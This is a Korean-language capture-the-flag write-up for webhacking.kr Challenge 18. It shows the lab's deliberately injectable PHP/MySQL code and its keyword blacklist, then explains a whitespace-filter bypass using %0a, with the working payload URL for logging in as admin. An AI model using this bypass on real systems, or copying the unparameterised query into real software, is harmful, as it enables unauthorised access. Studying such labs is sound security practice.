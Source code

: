 # sql injection

```php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 18</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
input { background:silver; }
a { color:lightgreen; }
</style>
</head>
<body>
<br><br>
<center><h1>SQL INJECTION</h1>
<form method=get action=index.php>
<table border=0 align=center cellpadding=10 cellspacing=0>
<tr><td><input type=text name=no></td><td><input type=submit></td></tr>
</table>
</form>
<a style=background:gray;color:black;width:100;font-size:9pt;><b>RESULT</b><br>
<?php
if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/ |\/|\(|\)|\||&|select|from|0x/i",$_GET['no'])) exit("no hack");
  $result = mysqli_fetch_array(mysqli_query($db,"select id from chall18 where id='guest' and no=$_GET[no]")); // admin's no = 2

  if($result['id']=="guest") echo "hi guest";
  if($result['id']=="admin"){
    solve(18);
    echo "hi admin!";
  }
}
?>
</a>
<br><br><a href=?view_source=1>view-source</a>
</center>
</body>
</html>
```

```sql
SELECT id FROM chall18
WHERE
id='guest' AND no=입력값
```

이러한 쿼리로 guest의 no를 받아서 로그인이 된다. 
목표는 admin으로 로그인을 하는 것. admin은 no=2이다. 

그냥 no=2를 하면, id='guest'로 되어있어서 guest로 로그인이 된다. 
따라서 다음과 같은 쿼리를 작성해야한다. 

```sql
SELECT id FROM chall18
WHERE
id='guest' AND no=아무거나 OR no=2
```

인풋값으로 `123 OR no=2`를 입력하면 white space 필터링에 걸린다. 

이걸 우회하기 위해, `123%0aOR%0ano=2`를 넣는다. `%0a`는 라인변경(\n)를 의미하는 URL인코딩 값이다. 
URL인코드가 2번되는 것을 방지하기 위해, URL에 해당 payload를 직접넣는다. 

```html
https://webhacking.kr/challenge/web-32/index.php?no=123%0aOR%0ano=2
```

그럼 해결!

> 인풋값이 SQL쿼리에 쓰이는 경우에 필터링이 항상 걸려있다. 
>
> 따라서 SQL injection공격을 위해서는 필터링을 우회하는 방법을 알아야한다. 
>
> https://g-idler.tistory.com/61